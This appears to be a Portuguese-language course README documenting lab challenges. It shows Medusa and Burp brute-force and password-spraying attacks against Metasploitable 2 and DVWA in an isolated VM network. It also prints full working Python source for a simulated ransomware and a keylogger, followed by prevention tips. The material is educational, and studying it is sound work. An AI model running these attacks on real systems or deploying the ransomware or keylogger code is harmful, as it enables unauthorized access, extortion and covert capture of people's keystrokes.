<h1>
  
  Simulando um Ataque de Brute Force de Senhas com Medusa e Kali Linux
</h1>

Repositório destinado aos desafios do curso Santander - Cibersegurança 2025.  

🎯 **Objetivo do primeiro desafio**

O desafio consiste em montar um ambiente controlado e reproduzir ataques comuns solicitados no desafio do curso:  
● Brute-force em **FTP**  
● Brute-force em formulário web (**DVWA**)  
● Password spraying em **SMB**  

🧩 **Cenário do Laboratório**

Todo o ambiente foi montado localmente usando VirtualBox, com rede Host-only para isolar as VMs da internet:  
● VM 1 (Atacante): Kali Linux  
● VM 2 (Alvo): Metasploitable 2  
Rede usada: Host-only Network

📌 **Download do Metasploitable 2**

O Metasploitable 2 foi baixado diretamente do SourceForge, o repositório oficial do projeto. A ISO da máquina contém vários serviços vulneráveis, ideais para laboratórios de pentest.



📌 **Criação da VM no VirtualBox**

Após o download, foi feita a criação da VM:  
● Importação da ISO do Metasploitable  
● Configuração da rede como Host-only Adapter para ambas VMs se comunicarem  
● Inicialização da máquina Metasploitable para permitir que os serviços subissem



📌 **Login padrão**

Para acessar o sistema usamos as credenciais:
**msfadmin** / **msfadmin**



🌐 **Verificação de Comunicação entre VMs**

Antes de realizarmos os ataques, validamos se as máquinas realmente se comunicam. No Kali, verifiquei o IP das VMs com:

`ifconfig`  

E testei a comunicação entre elas com:  

`ping 192.168.1.8`



🛰️ **Enumeração com Nmap**

Foi feito a enumeração das portas da máquina Metasploitable com o scanner Nmap:  

`nmap -sV -v -p- 192.168.1.7`  

**Flags utilizadas:**  

**-sV** → descobre serviços e versões  
**-v** → modo verbose (scan detalhado)  
**-p-** → scan em todas as portas  



**Resultado:** Descobrimos que a porta 21 (FTP) está aberta e vulnerável, além de smb, http e outros serviços inseguros que podem ser explorados.

🔐 **Ataque 1: Brute-force em FTP com Medusa**

Para este ataque, realizamos a criação manual de duas wordlists básicas com os comandos:  

`echo "admin\nmsfadmin\nroot\nteste\nftp" > usuarios_comuns.txt`  
`echo "12345\nmsfadmin\nteste\n123456789\nroot\nadmin\nftp" > senhas_comuns.txt`  



**Ataque com Medusa:**

`medusa -h 192.168.1.7 -U usuarios_comuns.txt -P senhas_comuns.txt -M ftp -t 5`  

**Flags utilizadas:**

**-h** → nosso alvo  
**-U** → arquivo com lista de usuários  
**-P** → arquivo com lista de senhas  
**-M ftp** → módulo do protocolo FTP  
**-t 5** → cinco threads simultâneas para o ataque ser mais rápido  



Credencial encontrada:  

**msfadmin** : **msfadmin**  

Este foi um brute-force simples com a ferramenta Medusa, mas funciona porque o FTP explorado não possui proteção contra tentativas excessivas, além do serviço estar exposto.


🕸️ **Ataque 2: Brute-force em Formulário Web DVWA com Burp Suite**  

Para ataques em formulários de login, não adianta usar ferramentas como Medusa, pois precisamos manipular requisições HTTP. Para isso, o Burp Suite é perfeito, pois nos vai permitir por meio do proxy, a modificação das requisições entre nossa máquina Kali e o site do DVWA.
   


Acessei o DVWA e tentei logar para interceptar a requisição GET de login, onde a requisição foi capturada no Burp:



Com a requisição capturada, realizamos o envio para o Intruder, que vai nos possibilitar modifica-la:  

→ Botão direito → Send to Intruder



No Intruder, configuramos o modo **Cluster Bomb Attack**, esse modo de ataque nos permite testar combinações diferentes de usuários e senhas (wordlist dupla):   

**posição 1** → username  
**posição 2** → password  
**payloads** → wordlists do SecLists



Ao configurarmos o ataque, executamos e observamos na tela de requisições enviadas que todas as respostas retornam o status **200 OK**, mas uma tem tamanho diferente, indicando que houve uma mudança na página, redirecionamento interno ou um login bem-sucedido.



Copiamos as credenciais da requisição diferente e realizamos login, confirmando que a credencial descoberta foi:   

**admin** : **password**

📁 **Ataque 3: Password Spraying em SMB com Medusa**

Diferente do brute-force, no password spraying usamos uma senha para vários usuários. Isso é útil quando tem chance de sermos bloqueados por várias tentativas de login ou o sistema usa senhas fracas ou com padrão.  

Utilizamos o seguinte comando para realizarmos este ataque:  

`medusa -h 192.168.1.7 -U /home/kali/Wordlists/Sec-Lists-master/Usernames/top-usernames-shortlist.txt -p "user" -M smbnt -f`

**Flags utilizadas:**

**-U** → lista de usuários  
**-p** → senha única (password spraying)  
**-M** smbnt → módulo para protocolo SMB  
**-f** → encerra o ataque ao encontrar uma credencial válida  



Credencial encontrada:  

**user** : **user**  

Neste ataque, o SMB da máquina é vulnerável de propósito, mas esse ataque é muito comum em empresas, especialmente quando usuários tem senhas fracas ou a empresa segue padrões de senha para serviços e contas.  

<h1>
  
Simulando um Malware de Captura de Dados Simples em Python e Aprendendo a se Proteger
</h1>

🎯 **Objetivo do segundo desafio**  

O propósito dessa atividade foi entender na prática:  
● Como ransomwares funcionam  
● Como keyloggers capturam oque o usuário digita  
● Como malwares podem ser detectados, mitigados e prevenidos  
● Como usar o Python para criar malwares em laboratório de teste  

🧪 **Ambiente do Laboratório**

Toda a atividade foi realizada usando:  
● VM: Kali Linux (VM)  

Ferramentas utilizadas:  
● Python 3  
● Bibliotecas cryptography e pynput  
● Diretório de teste com arquivos falsos para criptografia  

🧩 **Fazendo um Ransomware Simulado**

A primeira atividade demonstra o funcionamento básico de um ransomware, incluindo:  
● Geração de chave criptográfica  
● Busca e identificação de arquivos  
● Criptografia com Fernet  
● Criação de mensagem para resgate  

Abaixo segue o código usado nas aulas:  

```
from cryptography.fernet import Fernet
import os

def gerar_chave():
    chave = Fernet.generate_key()
    with open("chave.key", "wb") as chave_file:
        chave_file.write(chave)

def carregar_chave():
    return open("chave.key", "rb").read()

def criptografar_arquivo(arquivo, chave):
    f = Fernet(chave)
    with open(arquivo, "rb") as file:
        dados = file.read()
    dados_criptografados = f.encrypt(dados)
    with open(arquivo, "wb") as file:
        file.write(dados_criptografados)

def encontrar_arquivos(diretorio):
    lista = []
    for raiz, _, arquivos in os.walk(diretorio):
        for nome in arquivos:
            caminho = os.path.join(raiz, nome)
            if nome != "ransomware.py" and not nome.endswith(".key"):
                lista.append(caminho)
    return lista

def criar_mensagem_resgate():
    with open("LEIA_ISSO.txt", "w") as f:
        f.write("Seus arquivos foram criptografados!\n")
        f.write("Envie 1 bitcoin para o endereço X e envie o comprovante.\n")

def main():
    gerar_chave()
    chave = carregar_chave()
    arquivos = encontrar_arquivos("test_files")
    for arquivo in arquivos:
        criptografar_arquivo(arquivo, chave)
    criar_mensagem_resgate()
    print("Ransomware executado! Arquivos criptografados!")

if __name__ == "__main__":
    main()
```

Esse ransomware criado criptografia com algoritmo seguro (Fernet), e faz uma busca automática de arquivos, além de substituição silenciosa do conteúdo e solicitação de regaste por mensagem.  

🧩 **Fazendo um Keylogger Simulado**

A segunda atividade demonstra como os keyloggers podem monitorar tudo que o usuário digita no seu dispositivo infectado. O keylogger possibilita a captura de teclas comuns, caracteres especiais, enter, espaço, tab e ignorar oque você quiser.  

Abaixo segue o código usado nas aulas:  

```
from pynput import keyboard

IGNORAR = {
    keyboard.Key.shift,
    keyboard.Key.shift_r,
    keyboard.Key.ctrl_l,
    keyboard.Key.ctrl_r,
    keyboard.Key.alt_l,
    keyboard.Key.alt_r,
    keyboard.Key.caps_lock,
    keyboard.Key.cmd
}

def on_press(key):
    try:
        with open("log.txt", "a", encoding="utf-8") as f:
            f.write(key.char)
    except AttributeError:
        with open("log.txt", "a", encoding="utf-8") as f:
            if key == keyboard.Key.space:
                f.write(" ")
            elif key == keyboard.Key.enter:
                f.write("\n")
            elif key == keyboard.Key.tab:
                f.write("\t")
            elif key == keyboard.Key.backspace:
                f.write("[BACKSPACE]")
            elif key == keyboard.Key.esc:
                f.write("[ESC]")
            elif key in IGNORAR:
                pass
            else:
                f.write(f"[{key}] ")

with keyboard.Listener(on_press=on_press) as listener:
    listener.join()
```

O keylogger faz a captura das teclas, registra tudo em log.txt e faz com que não haja janela ou alertas. Nesse exemplo de código, o keylogger ainda possibilita interpretar teclas especiais.  

🧠 **Como se prevenir de um malware**  
Conforme comentado em aula, as melhores boas práticas para se seguir são:  

**1. Conscientização**  
● Treinar usuários/colaboradores para que evitem abrir anexos, links ou arquivos suspeitos  

**2. Antivírus / EDR**  
Os antivírus ou EDRs detectam comportamentos de malware baseado em assinaturas e comportamento, como:  
● Criptografia em massa  
● Captura de teclado  
● Modificação repentina de arquivos  

**3. Sandboxing**  
● Sempre quando testar arquivos desconhecidos, abri-los em VMs impede que o malware afete a máquina host caso ele seja malicioso  

**4. Firewall**  
● Bloqueia conexões externas usadas para comunicação com o atacante ou envio de dados capturados  
